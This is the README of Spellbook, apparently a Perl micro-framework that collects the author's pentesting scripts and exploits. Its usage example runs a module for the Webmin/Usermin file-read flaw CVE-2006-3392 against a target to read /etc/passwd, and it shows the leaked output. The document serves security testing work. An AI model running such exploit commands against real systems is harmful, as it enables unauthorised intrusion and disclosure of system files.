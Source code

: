 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A micro-framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.1.0-blue.svg">
    </a>
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](#references)

The main focus of this “micro-framework” is to keep my personal scripts organized and make them available in a structure where I can reuse the code that has already been written to write something else. Here you will find my “spellbook”: scripts, exploits and other small things I wrote during my bug hunting jorney, pentesting or red teaming missions.

---

### Download and install

```
  # Download
  $ git clone https://github.com/htrgouvea/spellbook && cd spellbook

  # Install libs and dependencies
  $ cpan install Getopt::Long Mojo::File Mojo::JSON
```

---

### How to use

```
Spellbook v0.1.0
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-t, --target     Set a target
	-p, --parameter  Set a value for a module parameter
```

### Example

```bash
# Searching for exploits 
$ perl spellbook.pl --search exploits

Module: Exploits::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Exploits::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================
...

# Using an exploit
$ perl spellbook.pl -m Exploits::CVE_2006_3392 -t http://172.30.0.15:10000/ -p /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
...
```

If you are interested in developing new modules, a good start is to read the [development guide](/docs/Developer_Guide.md).

---

### Contribution

- Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕) This project follows the best practices defined by this [style guide](https://heitorgouvea.me/projects/perl-style-guide).

---

### License

- This work is licensed under [MIT License.](/LICENSE.md)

---

### References

1. [https://en.wikipedia.org/wiki/Flow-based_programming](https://en.wikipedia.org/wiki/Flow-based_programming)